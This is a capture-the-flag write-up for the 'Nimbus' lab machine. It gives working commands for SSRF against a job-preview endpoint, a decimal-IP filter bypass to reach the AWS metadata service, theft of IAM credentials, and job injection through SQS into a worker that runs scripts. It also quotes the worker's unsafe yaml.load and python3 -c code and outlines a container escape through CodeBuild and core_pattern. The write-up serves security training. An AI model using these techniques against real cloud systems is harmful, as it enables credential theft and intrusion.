# Nimbus


```
Difficulty: Hard  
OS: Linux  
Services: HTTP (nginx), SSH, AWS Metadata Service (IMDS), SQS, Internal AWS Emulator (Floci), CodeBuild
```

## Offensive Operations

### Summary of Attack Chain

| Step | User / Access          | Technique Used                                    | Result                                                                            |
| :----: | :--------------------- | :------------------------------------------------ | :--------------------------------------------------------------------------------- |
|   1  | Unauthenticated        | **Network Enumeration (Nmap)**                    | Identified exposed HTTP and SSH services on the target.                           |
|   2  | Unauthenticated        | **Web Application Enumeration**                   | Discovered Nimbus Job Scheduler application and internal service references.      |
|   3  | Unauthenticated        | **Virtual Host Discovery (FFUF)**                 | Identified internal AWS endpoint `aws.nimbus.htb`.                                |
|   4  | Unauthenticated        | **SSRF Discovery (/jobs/preview)**                | Confirmed server-side URL fetching functionality.                                 |
|   5  | Unauthenticated        | **SSRF Filter Bypass (Decimal IPv4 Encoding)**    | Bypassed internal resource restrictions and reached AWS IMDS.                     |
|   6  | Unauthenticated        | **AWS Metadata Abuse (IMDS)**                     | Retrieved temporary credentials for `nimbus-web-role`.                            |
|   7  | nimbus-web-role        | **AWS Enumeration (STS/SQS)**                     | Validated role permissions and discovered `nimbus-jobs` queue.                    |
|   8  | nimbus-web-role        | **Queue Abuse (SQS SendMessage)**                 | Confirmed ability to submit arbitrary jobs directly to worker infrastructure.     |
|   9  | nimbus-web-role        | **Worker Execution Discovery**                    | Determined submitted jobs were processed automatically by internal workers.       |
|  10  | Worker Context         | **Python Script Injection**                       | Achieved arbitrary code execution through worker job processing.                  |
|  11  | worker                 | **Remote Command Execution**                      | Executed system commands and established interactive access.                      |
|  12  | worker                 | **User Flag Access**                              | Retrieved `user.txt` from `/home/worker/user.txt`.                                |
|  13  | worker                 | **Environment Enumeration**                       | Discovered internal AWS credentials and access to Floci services.                 |
|  14  | worker                 | **AWS Credential Discovery**                      | Identified additional credentials associated with `nimbus-worker-role`.           |
|  15  | worker                 | **Internal Service Enumeration**                  | Discovered access to internal CodeBuild service via `floci:4566`.                 |
|  16  | worker                 | **CodeBuild Project Creation**                    | Created a custom build project with attacker-controlled build specifications.     |
|  17  | worker                 | **Privileged Container Abuse**                    | Configured CodeBuild project with `privilegedMode=true`.                          |
|  18  | worker                 | **Entrypoint Logic Bypass (BASH_FUNC Injection)** | Prevented privilege-dropping mechanism and retained UID 0 inside build container. |
|  19  | root (Build Container) | **Container Enumeration**                         | Identified OverlayFS-backed writable layer exposed through host filesystem.       |
|  20  | root (Build Container) | **OverlayFS Abuse**                               | Located host-visible `upperdir` path from container mount configuration.          |
|  21  | root (Build Container) | **Kernel Crash Handler Abuse (`core_pattern`)**   | Configured host kernel to execute attacker-controlled helper script.              |
|  22  | root (Build Container) | **Container Escape**                              | Triggered crash event causing helper execution in host context.                   |
|  23  | root (Host)            | **Host-Level Code Execution**                     | Executed helper script as host root via kernel usermode-helper mechanism.         |
|  24  | root (Host)            | **Root Flag Access**                              | Read `/root/root.txt` and copied contents back into container-accessible storage. |
|  25  | root                   | **Full System Compromise**                        | Achieved complete compromise of the underlying Nimbus host.                       |




### Reconnaissance

#### Port Scanning

The assessment began with a full TCP port scan to identify exposed services on the target.

```bash
nmap -p- --min-rate 5000 -Pn 10.129.3.25 -oN nmap-allports.txt
```

The scan revealed only two accessible services:

```text
22/tcp open  ssh
80/tcp open  http
```

With the attack surface identified, a more detailed service enumeration scan was performed.

```bash
nmap -sCV -p22,80 -Pn 10.129.3.25 -oN nmap-scv.txt
```

The results provided version information and additional HTTP details:

```text
22/tcp open  ssh   OpenSSH 9.6p1 Ubuntu
80/tcp open  http  nginx 1.24.0 (Ubuntu)

http-title: Did not follow redirect to http://nimbus.htb/
```

The HTTP response indicated that the application expected requests to be made using the hostname `nimbus.htb` rather than the target IP address.

#### Virtual Host Configuration

To properly interact with the application, the hostname was mapped locally.

```bash
echo "10.129.3.25 nimbus.htb  aws.nimbus.htb" | sudo tee -a /etc/hosts
```

After updating the hosts file, browsing to the target revealed the Nimbus web application.

#### Website Review

The homepage presented a simple job processing platform that allowed users to submit URLs for preview and analysis.

Initial inspection identified the following functionality:

* URL preview feature
* Job submission workflow
* Backend processing architecture
* References to AWS-related infrastructure

The URL preview functionality appeared particularly interesting because it accepted arbitrary URLs supplied by the user and fetched remote content on behalf of the server.

This behavior suggested a potential Server-Side Request Forgery (SSRF) attack surface and became the primary focus of further testing.


### Web Application Enumeration

After configuring the hostname mapping, the application became accessible through the expected virtual host.

```bash
curl --resolve nimbus.htb:80:10.129.3.25 http://nimbus.htb/
```



The landing page identified the application as:

```text
Nimbus - Internal Job Scheduler
nimbus v1.4.2
```

Several interesting endpoints were immediately visible:

```text
/jobs
/login
/api/v1/health
```


#### Authentication Review

Visiting the login page revealed a message indicating that authentication was currently being migrated.

```text
SSO temporarily unavailable.
Job submitter remains unauthenticated during migration.
```

This statement suggested that portions of the application could still be accessed without authentication, making the job processing functionality an attractive target for further investigation.

#### Job Processing Functionality

The `/jobs` endpoint allowed users to submit jobs in two formats:

* A remote Git repository URL
* Raw YAML content pasted directly into the application

Before processing a job, the application sent the supplied content to a preview endpoint:

```text
/jobs/preview
```

This endpoint would later become a key component of the attack chain.


#### Virtual Host Enumeration

To verify whether the hostname was externally reachable through the web server, virtual host fuzzing was performed.

```bash id="x24l4j"
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -u http://10.129.3.25/ \
  -H "Host: FUZZ.nimbus.htb" \
  -fs 178
```



The scan produced a single valid result:

```text
aws [Status: 403, Size: 305]
```

The response confirmed that the server recognized the virtual host:

```text
aws.nimbus.htb
```

Although access was forbidden, the existence of the endpoint aligned with the infrastructure details leaked by the health API.

#### Internal Infrastructure Discovery

The next step was to examine the health endpoint.

```bash
curl http://nimbus.htb/api/v1/health
```




The response exposed several internal service references:

```json id="a7g5oz"
{
  "services": {
    "queue": {
      "endpoint": "http://aws.nimbus.htb",
      "status": "ok"
    },
    "scheduler": {
      "endpoint": "http://aws.nimbus.htb",
      "status": "ok"
    },
    "storage": {
      "endpoint": "http://aws.nimbus.htb",
      "status": "ok"
    }
  },
  "status": "healthy",
  "version": "1.4.2"
}
```

This information leak revealed the existence of an internal AWS-style service endpoint named:

```text
aws.nimbus.htb
```

The hostname appeared to be shared across multiple backend services, including queueing, scheduling, and storage components.


#### Investigating Job Submission

The `/jobs` functionality exposed two different methods for creating scheduled jobs:

1. **URL Mode** - Provide a URL pointing to a remote YAML file.
2. **YAML Mode** - Paste a YAML job definition directly into the application.

While YAML mode demonstrated that the application accepted user-controlled job definitions, URL mode presented a more interesting attack surface because the server would retrieve the supplied file on behalf of the user.

This behavior suggested a potential Server-Side Request Forgery (SSRF) vulnerability.


#### Confirming Server-Side Requests

To verify whether the application was fetching remote resources itself, a simple YAML file was created locally.

```yaml
name: probe
schedule: "* * * * *"
runtime: python3.11
```

A temporary HTTP server was started to host the file.

```bash id="hvjmrz"
python3 -m http.server 8000 --bind 10.10.16.156
```

The URL was then submitted to the preview endpoint.

```bash id="9a0j11"
curl -X POST http://nimbus.htb/jobs/preview \
  --data-urlencode 'url=http://10.10.16.156:8000/probe.yaml'
```



The response displayed the contents of the YAML file and rendered a parsed preview.

This confirmed that the Nimbus backend was issuing outbound HTTP requests and retrieving remote resources on behalf of the user.



#### SSRF Confirmation

At this point, the application met the classic characteristics of an SSRF sink:

* User controls a URL parameter.
* The server retrieves the remote resource.
* The response is returned to the user.
* No authentication is required.

The next objective was determining whether internal resources could also be accessed.


#### Testing Access Controls

Cloud environments commonly expose sensitive metadata through the link-local address:

```text
169.254.169.254
```


A request was made to the AWS metadata service through the preview functionality.

```bash
curl -X POST http://nimbus.htb/jobs/preview \
  --data-urlencode 'url=http://169.254.169.254/latest/meta-data/iam/security-credentials/foo.yaml'
```

The request was rejected.

```text
Security policy: this URL targets an internal resource and has been blocked.
```

This indicated that the developers were aware of SSRF risks and had implemented filtering intended to prevent access to internal addresses.

However, the response itself confirmed two important facts:

1. The application actively inspected requested URLs.
2. Internal resource access was being blocked through application-level filtering rather than network segmentation.

Because the restriction relied on URL validation, the next step was to determine whether the filter could be bypassed using alternative representations of internal addresses.

#### SSRF Filter Bypass

Although direct requests to the AWS metadata service were blocked, the protection mechanism appeared to rely on identifying specific IP address patterns rather than resolving and validating the destination after normalization.

This suggested that alternative IP representations might bypass the filter.

#### Converting the Metadata Address

The AWS Instance Metadata Service (IMDS) is typically available at:

```text
169.254.169.254
```

IPv4 addresses can also be represented as a single decimal integer.

The conversion can be performed as follows:

```bash id="ov7b3m"
python3 - <<'PY'
import ipaddress
print(int(ipaddress.IPv4Address("169.254.169.254")))
PY
```

Output:

```text 
2852039166
```




If the application validates only the dotted-decimal form of the address, the integer representation may bypass the filter while still resolving to the same destination.


#### Bypassing the File Extension Check

Further testing revealed that the preview functionality only accepted URLs that appeared to reference YAML files.

A query string could be used to satisfy this validation requirement while preserving the original request path.

```text
?x=.yaml
```

Combining both observations produced the following request:

```bash id="hfdkso"
curl -X POST http://nimbus.htb/jobs/preview \
  --data-urlencode 'url=http://2852039166/latest/meta-data/iam/security-credentials/?x=.yaml'
```

The request succeeded and returned the IAM role name assigned to the instance.

```text 
nimbus-web-role
```

This confirmed that the SSRF filter could be bypassed and that the metadata service was reachable from the application server.



#### Extracting Temporary AWS Credentials

With the role name identified, the metadata endpoint was queried again to retrieve the associated temporary credentials.

```bash id="h7eiyz"
curl -X POST http://nimbus.htb/jobs/preview \
  --data-urlencode 'url=http://2852039166/latest/meta-data/iam/security-credentials/nimbus-web-role?x=.yaml'
```





The response contained a standard AWS credential document including:

* Access Key ID
* Secret Access Key
* Session Token
* Expiration Time

Example response:

```json
{
  "Code": "Success",
  "Type": "AWS-HMAC",
  "AccessKeyId": "...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "..."
}
```

At this stage, the SSRF vulnerability had escalated from information disclosure to cloud credential theft.


### Enumerating the AWS Environment

The retrieved credentials were exported into the local environment.

```bash
export AWS_ACCESS_KEY_ID='<access-key>'
export AWS_SECRET_ACCESS_KEY='<secret-key>'
export AWS_SESSION_TOKEN='<session-token>'
export AWS_DEFAULT_REGION='us-east-1'
```




To verify that the credentials were valid, the Security Token Service (STS) identity endpoint was queried.

```bash
aws --endpoint-url http://aws.nimbus.htb sts get-caller-identity
```



The response confirmed successful authentication.

```json
{
  "UserId": "...",
  "Account": "847219365028",
  "Arn": "arn:aws:sts::847219365028:assumed-role/nimbus-web-role/..."
}
```

The application server was therefore operating under the role:

```text 
nimbus-web-role
```


#### Discovering Backend Queues

The next objective was identifying AWS services accessible through the compromised role.

Listing available SQS queues revealed a single queue.

```bash
aws --endpoint-url http://aws.nimbus.htb sqs list-queues
```

Response:

```json
{
  "QueueUrls": [
    "http://floci:4566/847219365028/nimbus-jobs"
  ]
}
```

The queue name strongly suggested that it was responsible for processing submitted jobs.

```text
nimbus-jobs
```




#### Reviewing Queue Permissions

Queue attributes were retrieved to determine whether the role possessed useful permissions.

```bash 
aws --endpoint-url http://aws.nimbus.htb sqs get-queue-attributes \
  --queue-url http://aws.nimbus.htb/847219365028/nimbus-jobs \
  --attribute-names All
```

The request succeeded and returned queue metadata.

Most importantly, the compromised role possessed permission to submit messages.


#### Confirming Worker Consumption

To determine whether a backend worker was actively consuming jobs, a test message was inserted into the queue.

```bash 
aws --endpoint-url http://aws.nimbus.htb sqs send-message \
  --queue-url http://aws.nimbus.htb/847219365028/nimbus-jobs \
  --message-body '{"name":"probe","command":"id"}'
```

The message was accepted successfully.

```json
{
  "MessageId": "9f8ac84d-68fd-4e74-8f38-15570ee6f89e"
}
```

Although permissions did not allow reading messages from the queue, the queue statistics quickly returned to zero pending messages.


This behavior strongly indicated that an internal worker process was actively polling and consuming entries from `nimbus-jobs`.

At this point, the attack path had progressed significantly:

1. SSRF provided access to the metadata service.
2. Metadata access yielded temporary IAM credentials.
3. The credentials granted access to the internal AWS environment.
4. The role could submit messages to the backend job queue.
5. A worker was confirmed to be processing queue entries.

The next step was determining how the worker handled job messages and whether user-controlled queue data could be transformed into code execution.


### Initial Access

#### From AWS Access to Worker Interaction

At this stage, temporary AWS credentials had already been obtained through the SSRF vulnerability and metadata service access.

The application architecture indicated that submitted jobs were placed into the `nimbus-jobs` queue and subsequently processed by backend workers running the Nimbus worker service.

Rather than interacting through the web interface, the recovered AWS credentials allowed direct communication with the queue infrastructure.

This effectively bypassed any validation or restrictions enforced by the frontend application.


#### Understanding the Worker Job Format

Testing revealed that the worker accepted jobs in either JSON or YAML format.

A typical job contained metadata such as:

* Job name
* Schedule
* Runtime
* Script content

The most interesting field was `script`, which ultimately controlled what code would be executed by the worker.

To verify this behavior, a simple callback job was submitted that caused the worker to make an outbound HTTP request.

When the request was received by the attacker's listener, it confirmed that code supplied through the job definition was being executed on the worker host.


#### Reviewing Worker Source Code

Inspection of the worker implementation revealed the root cause.

The worker processed incoming jobs using the following logic:

```python
job = yaml.load(body, Loader=yaml.Loader)
script = job.get("script", "")
subprocess.run(["python3", "-c", script], capture_output=True, text=True, timeout=30)
```

Two important observations can be made:

1. User-controlled YAML content is parsed directly.
2. The `script` field is passed to `python3 -c` for execution.

As a result, any script supplied within a job definition would be executed by the worker process.


#### Verifying Code Execution

To confirm the level of access, a job was submitted that executed basic system commands and returned the results through an HTTP callback.

The returned output confirmed successful command execution within the worker environment.

Information gathered included:

* Current user
* Hostname
* Working directory

The worker process was running as:

```text
uid=1000(worker) gid=1000(worker)
```

Additional information identified the execution environment as:

```text
hostname: 23c094f7b01b
cwd: /app
```

These indicators strongly suggested that the worker was operating inside a containerized environment.



#### User Accessed

Enumeration of the worker filesystem revealed the user flag location:

```text
/home/worker/user.txt
```

At this point, initial access to the target had been achieved through code execution within the worker container.




The user flag could be retrieved directly from the worker account.


### Post-Exploitation Enumeration

With a foothold established, the focus shifted to understanding the surrounding environment and identifying potential privilege escalation paths.

Basic host enumeration was performed to collect information about:

* User privileges
* Running services
* Network listeners
* Writable locations
* Installed capabilities
* Container configuration

The results reinforced the assumption that the worker was running inside a container rather than directly on the host.






#### Inspecting Cloud Configuration

Given the AWS-themed architecture, local cloud configuration became a priority.

Environment variables exposed several AWS-related settings:

```text
AWS_DEFAULT_REGION=us-east-1
AWS_ACCESS_KEY_ID=<REDACTED>
AWS_SECRET_ACCESS_KEY=<REDACTED>
AWS_ENDPOINT_URL=http://aws.nimbus.htb
QUEUE_URL=http://aws.nimbus.htb/847219365028/nimbus-jobs
```

Unlike the credentials recovered through SSRF, these belonged to the worker service itself.



The presence of a separate credential set indicated that the worker operated under a different IAM role.


#### Discovering Worker Resources

Further filesystem inspection identified the worker application source:

```text
/app/worker.py
```

This provided additional insight into how jobs were processed and how the queue infrastructure was integrated into the application.



The discovery also confirmed that the execution context belonged to the worker service rather than the web application.


#### Worker Role Analysis

Testing performed with the worker credentials identified a second role:

```text
nimbus-worker-role
```

The role possessed permissions required for queue processing, including:

* Receiving messages
* Deleting messages
* Interacting with the job queue

However, attempts to access other AWS services were unsuccessful.

The role did not permit:

* S3 enumeration
* Secrets Manager enumeration
* IAM enumeration
* Lambda creation
* EC2 discovery
* SSM command execution

As a result, the worker credentials alone did not provide a direct path to further cloud compromise.


#### Summary

The path to initial access can be summarized as follows:

| Step | Technique             | Result                                            |
| ---- | --------------------- | ------------------------------------------------- |
| 1    | SSRF                  | Access to AWS metadata service                    |
| 2    | IMDS Credential Theft | Obtained `nimbus-web-role` credentials            |
| 3    | SQS Access            | Direct interaction with `nimbus-jobs`             |
| 4    | Worker Job Submission | Controlled worker execution                       |
| 5    | Script Execution      | Code execution as `worker`                        |
| 6    | Local Enumeration     | Discovery of worker credentials and configuration |

